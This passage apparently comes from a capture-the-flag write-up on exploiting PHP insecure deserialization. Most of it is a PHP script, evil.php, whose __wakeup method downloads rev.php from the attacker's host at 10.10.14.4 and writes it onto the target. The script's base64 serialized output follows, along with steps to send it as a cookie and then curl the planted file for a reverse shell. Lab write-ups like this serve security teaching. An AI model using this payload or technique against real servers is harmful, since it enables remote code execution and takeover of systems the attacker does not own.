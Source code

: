 {% code title="evil.php" %}
```php
<?php

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp = "http://10.10.14.4/rev.php";
    public $imgPath = "./rev.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
$serialized = base64_encode(serialize(new AvatarInterface))
echo $serialized
?>

$ php evil.php
TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNToiaHR0cDovLzEwLjEwLjE0LjQvcmV2LnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vcmV2LnBocCI7fQ==
```
{% endcode %}

Then, we can simply send a request with this the output as the cookie. We would get a few hits on our HTTP server.

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Then we can simply curl it to gain a reverse shell.

<figure><img src="../../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>
